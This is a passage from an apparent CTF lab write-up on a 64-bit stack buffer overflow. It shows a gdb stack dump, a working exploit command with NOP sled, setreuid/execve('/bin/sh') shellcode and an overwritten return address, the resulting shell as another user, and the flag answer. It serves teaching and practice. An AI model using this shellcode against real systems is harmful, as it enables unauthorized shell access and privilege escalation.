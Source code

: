 ~~~
0x7fffffffe2c8:	0x43434343	0x00004343	0xffffe3c8	0x00007fff <--- return address
0x7fffffffe2d8:	0x00000000	0x00000002	0x004005e0	0x00000000
0x7fffffffe2e8:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe2f8:	0xffffe3c8	0x00007fff	0x00040000	0x00000002
0x7fffffffe308:	0x004005ac	0x00000000	0x00000000	0x00000000
0x7fffffffe318:	0xb5081d5d	0x166c42e5	0x00400450	0x00000000
0x7fffffffe328:	0xffffe3c0	0x00007fff	0x00000000	0x00000000
0x7fffffffe338:	0x00000000	0x00000000	0x7b281d5d	0xe993bd9a
0x7fffffffe348:	0xe10c1d5d	0xe993ad2d	0x00000000	0x00000000
0x7fffffffe358:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe368:	0xffffe3e0	0x00007fff	0xf7ffe130	0x00007fff
0x7fffffffe378:	0xf7de7656	0x00007fff	0x00000000	0x00000000
0x7fffffffe388:	0x00000000	0x00000000	0x00000000	0x00000000
~~~

Let's take `0x7fffffffe268` as return address (between future NOP sled and beginning of shell code).

**Payload**

Now, our payload is ready:

~~~
[user1@ip-10-10-189-18 overflow-4]$ ./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x68\xe2\xff\xff\xff\x7f')")
new word is doggo������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������������h����
sh-4.2$ whoami
user3
sh-4.2$ cat secret.txt
wowanothertime!!
~~~

Answer: `wowanothertime!!`